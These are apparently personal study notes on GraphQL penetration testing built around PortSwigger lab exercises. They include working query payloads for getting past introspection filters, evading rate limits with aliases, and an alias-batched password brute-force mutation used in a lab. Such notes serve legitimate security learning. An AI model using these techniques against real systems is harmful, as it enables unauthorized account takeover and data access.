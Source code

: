# Testing

### Discover GraphQL endpoint
 - Graphql uses same endpoint for all actions.
 - Universal queries, send `query{__typename}` to any grapqhl endpoint, endpoints will respond with `{"data": {"__typename": "query"}}` somewhere in its response.
 - Common endpoints (maybe add v1,v2 ... to mix it up )
     - /graphql
     - /api
     - /api/graphql
     - /graphql/api
     -/graphql/graphql
 - GraphQL services will often respond to any non-GraphQL request with a `"query not present"` or similar error.
 - Usually they respond to `POST` if they don't, try different method with `x-www-form-urlencoded`.
 - If graphql powers the website, visit web UI, see HTTP history.
 - Burp scanner auto finds it and raises a issue, owasp zap too ?

### Exploiting unsanitized arguments
 - like IDOR
 - Example:
 - Request
```
#Example product query

    query {
        products {
            id
            name
            listed
        }
    }
```
 - Response
```
  #Example product response

    {
        "data": {
            "products": [
                {
                    "id": 1,
                    "name": "Product 1",
                    "listed": true
                },
                {
                    "id": 2,
                    "name": "Product 2",
                    "listed": true
                },
                {
                    "id": 4,
                    "name": "Product 4",
                    "listed": true
                }
            ]
        }
    }
```
 - See that ID is sequential  and id 3 is missing.
 - New Request
```
#Query to get missing product

    query {
        product(id: 3) {
            id
            name
            listed
        }
    }
```
 - Check if we get response?

### Discovering schema information
 - Use introspection query. full query at https://portswigger.net/web-security/graphql.
 - inQL burp plugin.
 - Suggesstions ? https://github.com/nikitastupin/clairvoyance

### Bypassing GraphQL introspection defences
 - When developers disable introspection, they could use a regex to exclude the __schema keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.
 - Alternate method?
```
 #Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }
```

### Bypassing rate limiting using aliases
 - aliases are used to Explicitly name the instance name to instances being returned, so we can have 2 properties of same type.
```
#Valid query using aliases

    query getProductDetails {
        product1: getProduct(id: "1") {
            id
            name
        }
        product2: getProduct(id: "2") {
            id
            name
        }
    }
```
 - Some rate limiters work based on the number of HTTP requests received rather than the number of operations performed on the endpoint.
```
#Request with aliased queries

    query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```
 - See how made query to same object 3x in same request.

### LABS
##### Lab: Accessing private GraphQL posts
 - Looked at http history, sent data to inQL, Type the full URL in inQL scanner, I see
```
query {
	getBlogPost(id:1334) {
		date
		summary
		image
		author
		isPrivate
		title
		paragraphs
		id
		postPassword
	}
}
```
 -  `postPassword` is unique field, so turbo intruder with `postPassword` added to graphql fields, get the password.

##### Lab: Bypassing GraphQL brute force protections
 - First login was like this
```
{"query":"\n    mutation login($input: LoginInput!) {\n        login(input: $input) {\n            token\n            success\n        }\n    }","operationName":"login","variables":{"input":{"username":"wiener","password":"peter"}}}
```
 - With alias burte force it becomes like this
```
{"query": "mutation{login0:login(input:{username:\"carlos\", password:\"123456\"}){token\n success}\nlogin1:login(input:{username:\"carlos\", password:\"password\"}){token\n success}\nlogin2:login(input:{username:\"carlos\", password:\"12345678\"}){token\n success}\nlogin3:login(input:{username:\"carlos\", password:\"qwerty\"}){token\n success}\nlogin4:login(input:{username:\"carlos\", password:\"123456789\"}){token\n success}  ... }"}
```
 - Script appended here.

